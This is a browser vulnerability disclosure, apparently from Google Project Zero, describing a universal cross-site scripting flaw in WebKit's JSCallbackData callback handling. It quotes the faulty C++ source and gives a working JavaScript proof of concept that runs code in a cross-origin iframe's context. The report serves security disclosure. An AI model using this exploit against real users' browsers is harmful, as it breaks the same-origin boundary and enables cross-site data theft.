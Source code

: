 # UXSS with JSCallbackData

### Reported by <mailto:lokihardt@google.com>, Jan 3 2017

Here is the definition of `JSCallbackData` class. This class is used to call a javascript function from a DOM object.

```cpp
class JSCallbackDataStrong : public JSCallbackData {
public:
    JSCallbackDataStrong(JSC::JSObject* callback, void*)
        : m_callback(callback->globalObject()->vm(), callback)
    {
    }

    JSC::JSObject* callback() { return m_callback.get(); }
    JSDOMGlobalObject* globalObject() { return JSC::jsCast<JSDOMGlobalObject*>(m_callback->globalObject()); }

    JSC::JSValue invokeCallback(JSC::MarkedArgumentBuffer& args, CallbackType callbackType, JSC::PropertyName functionName, NakedPtr<JSC::Exception>& returnedException)
    {
        return JSCallbackData::invokeCallback(callback(), args, callbackType, functionName, returnedException);
    }

private:
    JSC::Strong<JSC::JSObject> m_callback;
};

JSValue JSCallbackData::invokeCallback(JSObject* callback, MarkedArgumentBuffer& args, CallbackType method, PropertyName functionName, NakedPtr<JSC::Exception>& returnedException)
{
    ASSERT(callback);

    auto* globalObject = JSC::jsCast<JSDOMGlobalObject*>(callback->globalObject());  <<<---------- (1)
    ASSERT(globalObject);

    ExecState* exec = globalObject->globalExec();
    JSValue function;
    CallData callData;
    CallType callType = CallType::None;

    if (method != CallbackType::Object) {
        function = callback;
        callType = callback->methodTable()->getCallData(callback, callData);
    }
    if (callType == CallType::None) {
        if (method == CallbackType::Function) {
            returnedException = JSC::Exception::create(exec->vm(), createTypeError(exec));  <<<---------- (2)
            return JSValue();
        }
        ...
    }
    ...
}
```

But `JSCallbackData::invokeCallback` method obtains the `ExecState` object from the callback object. So if we invoke `JSCallbackData::invokeCallback` method with the different origin's window as `callback`, an exception object will be created from the different domain's javascript context.

PoC:

```js
'use strict'

let f = document.body.appendChild(document.createElement('iframe'))
f.onload = () => {
	f.onload = null

	try {
		let iterator = document.createNodeIterator(
			document,
			NodeFilter.SHOW_ALL,
			f.contentWindow
		)
		iterator.nextNode()
	} catch (e) {
		e.constructor.constructor('alert(location)')()
	}
}

f.src = 'https://abc.xyz/'
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1068
